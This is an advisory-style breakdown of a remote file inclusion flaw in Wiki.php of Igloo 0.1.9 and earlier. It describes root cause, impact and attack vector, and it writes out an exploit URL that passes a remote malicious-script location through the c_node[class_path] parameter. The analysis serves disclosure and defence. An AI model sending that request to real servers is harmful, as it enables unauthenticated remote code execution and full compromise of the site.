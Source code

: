 Based on the provided content, here's a breakdown of the vulnerability:

*   **Root Cause:** The vulnerability is due to a lack of proper input sanitization in the `Wiki.php` file of Igloo 0.1.9 and prior versions when handling the `c_node[class_path]` parameter.
*   **Weaknesses/Vulnerabilities:** This is a Remote File Inclusion (RFI) vulnerability. The `Wiki.php` script includes files based on user-supplied input, allowing for the inclusion of remote files.
*   **Impact of Exploitation:** An attacker can include and execute arbitrary code from a remote server, potentially leading to full compromise of the server hosting the vulnerable Igloo installation. This could include data theft, defacement, or other malicious activities.
*   **Attack Vectors:** The attack vector is via a crafted HTTP GET request to the `Wiki.php` script. Specifically, the attacker must be able to send a request that includes a malicious URL in the `c_node[class_path]` parameter.
*   **Required Attacker Capabilities/Position:** The attacker needs to be able to send HTTP requests to the vulnerable server. No prior authentication is needed and the attacker can exploit the vulnerability remotely.

**Additional Details:**

*   The exploit is triggered by passing a URL to the vulnerable parameter in the HTTP request: `http://www.site.com/[Igloo_path]/class/Wiki/Wiki.php?c_node[class_path]=[evil_scripts]`
*   The provided exploit string `[evil_scripts]` represents the remote location of the malicious file to be included.

This exploit allows an unauthenticated user to execute arbitrary code, thus resulting in a very high severity rating.